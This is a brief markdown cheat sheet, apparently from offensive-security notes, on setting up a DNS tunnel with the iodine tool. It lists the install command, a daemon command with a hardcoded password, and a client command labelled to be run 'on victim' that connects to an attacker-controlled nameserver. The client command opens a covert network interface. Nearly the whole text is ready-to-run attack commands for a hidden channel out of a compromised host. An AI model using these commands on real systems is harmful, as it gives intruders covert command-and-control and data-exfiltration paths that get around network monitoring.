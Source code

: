 # Install Iodine
```bash
apt install iodine
```

# Run Iodine daemon to listen for connections
```bash
iodine -u nobody -P 'tr98xgh!h7d' -f 10.0.0.1 ns1.<Domain Name>.com
```

# Run Iodine client on victim
```bash
iodine -P 'tr98xgh!h7d' ns1.<Domain Name>.com -T CNAME -r -f
# If successful, will create a new, network interface, with an IP incremented from the one assigned to the daemon (10.0.0.2).
```

# References
##### [Iodine](https://code.kryo.se/iodine/)
##### [Github](https://github.com/yarrick/iodine)